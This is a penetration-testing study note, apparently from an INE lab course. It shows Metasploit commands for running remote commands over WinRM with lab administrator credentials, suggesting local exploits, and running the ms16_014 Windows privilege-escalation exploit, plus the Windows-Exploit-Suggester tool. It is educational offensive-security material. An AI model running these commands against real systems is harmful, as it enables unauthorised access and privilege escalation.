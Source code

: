 > Checking WinRM supported authentication method using an auxiliary module.

```msfconsole
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
exploit
```

> Can be used to execute remote commands.

#### Windows Kernel Exploits:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.

This is a built in meterpreter command i.e. `getsystem` that uses some techniques to escalate the privileges. It can used in some cases as well. 

```msfconsole
use post/multi/recon/local_exploit_suggester
show options
set SESSION <session-ID>
run
```

> It will tell the exploit modules that you can try to elevate your privileges.

```msfconsole
use exploit/windows/local/ms16_014_wmi_recv_notif
show options
set SESSION <session-ID>
set LPORT <port-number>
exploit
```

> It can be used to escalate privileges in vulnerable windows 7 machine.

```Shell
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```

> This tool compares a target path levels with Microsoft vulnerability database in order to detect missing patches on the target that can be then exploited.

**How to use:**

First get the system info from the meterpreter session by `shell > systeminfo`. Then copy this info in a text file and then pass this as an argument to the tool.

**Step 01:**

```Shell
$ ./windows-exploit-suggester.py --update
[*] initiating...
[*] successfully requested base url
[*] scraped ms download url
[+] writing to file 2014-06-06-mssb.xlsx
[*] done
```
